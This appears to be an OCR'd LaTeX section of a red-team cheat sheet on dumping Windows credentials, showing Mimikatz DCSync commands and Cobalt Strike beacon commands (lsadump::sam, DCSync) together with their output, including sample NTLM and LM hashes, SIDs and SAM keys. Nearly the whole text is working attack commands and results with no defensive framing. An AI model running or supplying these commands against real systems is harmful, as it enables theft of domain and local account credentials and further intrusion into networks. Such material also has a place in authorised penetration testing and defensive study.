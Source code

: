 \subsubsection*{DCSync - Mimikatz}
\begin{lstlisting}[language=sh]
mimikatz # lsadump::dcsync /domain:mydomain.local /user:someuser
[DC] mydomain.local' will be the domain
[DC] 'DC1.mydomain.local' will be the DC server
[DC] 'someuser' will be the user account

Object RDN             : Some User

** SAM ACCOUNT **

SAM Username          : someuser
User Principal Name   : someuser@mydomain.local
[CUT]
Password last change  : 2/10/2020 10:13:46 AM 
Object Security ID    : S-1-5-21-363360753-467370821-3292725625-1118
Object Relative ID    : 1118

Credentials:
   Hash NTLM: e4817e3[CUT]dc37ca25f9
\end{lstlisting}

\subsection{Cobalt Strike}
Dumping and abusing credentials with CS Beacons

\subsubsection*{Extract local creds from SAM - Cobalt Strike using mimikatz}
\begin{lstlisting}[language=sh]
beacon> mimikatz !lsadump::sam
[*] Tasked beacon to run mimikatz's !lsadump::sam command
[+] host called home, sent: 825927 bytes
[+] received output:
Domain : WINDOWS2
SysKey : 0af496ade2f34bb46bf052392f97f310
Local SID : S-1-5-21-3110711237-1288030956-2635231936

SAMKey : f9c4f5e09770d65fd8987ed5d36bc800

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe
\end{lstlisting}

\subsubsection*{DCSync - Cobalt Strike}
\begin{lstlisting}[language=sh]
** SAM ACCOUNT **

SAM Username         : dfm
User Principal Name  : dfm@testlab.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000280 ( ENCRYPTED_TEXT_PASSWORD_ALLOWED_NORMAL_ACCOUNT )
Account expiration   :
Password last change : 3/6/2017 3:07:33 PM
Object Security ID   : S-1-5-21-88232822-274137685-417320799-1109
Object Relative ID   : 1109

Credentials:
Hash NTLM: 2b576acbe6bcfda7294d6bd18041b8fe
   ntlm- 0: 2b576acbe6bcfda7294d6bd18041b8fe
   lm  - 0: a51a888cb60ec62bee12c5407fa7d077
\end{lstlisting}

